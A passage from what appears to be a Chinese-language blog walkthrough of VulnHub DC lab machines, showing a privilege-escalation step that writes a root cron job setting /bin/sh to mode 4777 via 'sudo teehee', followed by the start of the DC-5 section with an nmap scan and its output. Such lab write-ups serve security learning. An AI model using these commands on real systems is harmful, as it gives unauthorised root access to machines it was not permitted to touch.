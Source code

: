 ##### [](https://lnng.top/posts/2ea3.html#%E5%86%99%E5%85%A5%E5%AE%9A%E6%97%B6%E6%96%87%E4%BB%B6-etc-crontab "写入定时文件/etc/crontab")写入定时文件/etc/crontab

向/etc/crontab文件中写入新的定时任务

时间部分全部填写为*，意思是每分钟执行一次，通过写入将/bin/sh的权限修改为4777，这样就可以在非root用户下执行它，并且执行期间拥有root权限。

```
sudo teehee /etc/crontab
* * * * * root chmod 4777 /bin/sh
```

![upload successful](https://lnng.top/images/pasted-198.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0-3 "参考文章")参考文章

[安全客](https://www.anquanke.com/post/id/178658#h3-5)

[https://www.cnblogs.com/yurang/p/13721862.html](https://www.cnblogs.com/yurang/p/13721862.html)

## [](https://lnng.top/posts/2ea3.html#DC5 "DC5")DC5

### [](https://lnng.top/posts/2ea3.html#%E5%9F%BA%E6%9C%AC%E7%8E%AF%E5%A2%83%E7%9A%84%E6%90%AD%E5%BB%BA "基本环境的搭建")基本环境的搭建

靶机下载地址：[https://download.vulnhub.com/dc/DC-5.zip](https://download.vulnhub.com/dc/DC-5.zip)

### [](https://lnng.top/posts/2ea3.html#%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86-3 "基本信息收集")基本信息收集

```
nmap -sS -A 192.168.124.0/24
```

```
Nmap scan report for 192.168.124.149
Host is up (0.00027s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
80/tcp  open  http    nginx 1.6.2
|_http-server-header: nginx/1.6.2
|_http-title: Welcome
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37412/udp   status
|   100024  1          49448/tcp6  status
|   100024  1          49885/udp6  status
|_  100024  1          56530/tcp   status
MAC Address: 00:0C:29:1A:8C:74 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
```